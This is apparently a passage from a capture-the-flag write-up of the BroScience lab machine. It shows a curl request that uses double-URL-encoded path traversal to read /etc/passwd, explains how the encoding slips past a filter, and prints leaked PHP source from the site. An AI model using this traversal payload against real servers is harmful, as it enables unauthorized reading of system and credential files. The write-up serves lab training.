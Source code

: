 These six requests seem to return data. I’ll try one in Firefox:

```

oxdf@hacky$ curl -k https://broscience.htb/includes/img.php?path=..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...[snip]...
bill:x:1000:1000:bill,,,:/home/bill:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
postgres:x:117:125:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
_laurel:x:998:998::/var/log/laurel:/bin/false

```

#### Payload Analysis

These payloads seem to bypass the filter by double URL-encoding the `/` in `../`. The first URL encode takes `/` –> `%2f`. The next URL encode (just of the `%`) takes `%` –> `%25`, making the entire `../` into `..%252f`. Decoing this once will give `..%2f`, and then again will give `../`.

### Site Enumeration

#### index.php

`../index.php` pull the source for the main site. In the header, there’s references to `/includes/header.php` and `/includes/utils.php`:

```

<?php
session_start();
?>

<html>
    <head>
        <title>BroScience : Home</title>
        <?php 
        include_once 'includes/header.php';
        include_once 'includes/utils.php';
        $theme = get_theme();
        ?>
        <link rel="stylesheet" href="styles/<?=$theme?>.css">
    </head>
...[snip]...

```

Next the body has some setup, and the connection to the database:

```

...[snip]...
    <body class="<?=get_theme_class($theme)?>">
        <?php include_once 'includes/navbar.php'; ?>
        <div class="uk-container uk-margin"> 
            <!-- TODO: Search bar -->
            <?php
            include_once 'includes/db_connect.php';
...[snip]...

```
